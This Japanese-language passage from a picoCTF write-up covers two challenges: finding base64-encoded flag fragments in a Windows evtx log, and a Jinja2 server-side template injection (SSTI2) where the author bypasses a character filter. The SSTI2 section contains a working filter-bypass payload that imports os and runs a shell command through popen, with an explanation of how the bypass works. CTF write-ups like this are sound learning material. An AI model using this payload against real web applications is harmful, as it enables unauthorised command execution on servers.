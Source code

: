 Windows のイベントログが記録された evtx ファイルが与えられる。FLAG が 3 分割されて仕込まれているので、見つける。

当方 macOS ユーザーなので困っていたが ChatGPT に `python-evtx` というライブラリを教えてもらった。これで evtx を xml に変換し、以降は VSCode に読み込んでがんばる。

```python
from Evtx.Evtx import Evtx

def dump():
  with Evtx('Windows_Logs.evtx') as evtx, open('dump.xml', 'w') as f:
    for rec in evtx.records():
      print(rec.xml(), file=f)

if __name__ == '__main__':
  dump()
```

シャットダウンがどうのこうのと問題文に書いてあるので shutdown を検索すると、いくつかヒットするが、そのうちのひとつ `Immediate Shutdown (MXNfYV9wcjN0dHlfdXMzZnVsXw==)` の () 内がかなり不自然。base64 でデコードしてみると FLAG の真ん中とおぼしき文字列になる。\
次は FLAG の先頭を探しにかかったのだが、あてがないため困る。FLAG は `picoCTF{` から始まっているだろうことと、隠されたデータは base64 でエンコードされているだろうことから、`picoCTF{` を base64 エンコードした `cGljb0NURns=` を検索することにした。後ろの方はパディングのため一致しないことに注意して、適当に省く。`cGljb0NURntFdjNudF92aTN3djNyXw==` がヒットした。\
残る 3 つめの断片がどうにも見つからず、たいへん困る。shutdown の検索結果をじっくり調べている中、C:\Windows\system32\shutdown.exe のログの param6 に怪しさを見出した。これが目的の断片で、あとは見つけた断片をそれぞれデコードして結合すれば FLAG を入手できる。

---

## SSTI2
(Web Exploitation)

問題設定は SSTI1 と同じだが、入力は一部の文字が削除されるフィルターにかけられる。

適当に入力して結果を見ると、`.`, `[`, `]` がフィルターされているような感じがする。つまり、なんらかのオブジェクトの子要素にアクセスするポピュラーな方法が封じられてしまい、この迂回に難儀して放置していたが、[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) にすべてが記述されていた。\
[Jinja2 - Filter Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---filter-bypass), Bypassing most common filters のペイロードを改造する。

ペイロード例
{% raw %}
`{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')() }}`
{% endraw %}

解説
- `|attr('hoge')` はフレームワーク (Flask?) の機能で、`.` による要素アクセスを代替できる
- `[]` による要素アクセスは、Python 内部では `__getitem__` メソッドで処理されているため、これを `|attr('__getitem__')` で代替する

---

Writeup は以上です\
Easy 枠は全問、Medium 枠も半分解けたので嬉しい！
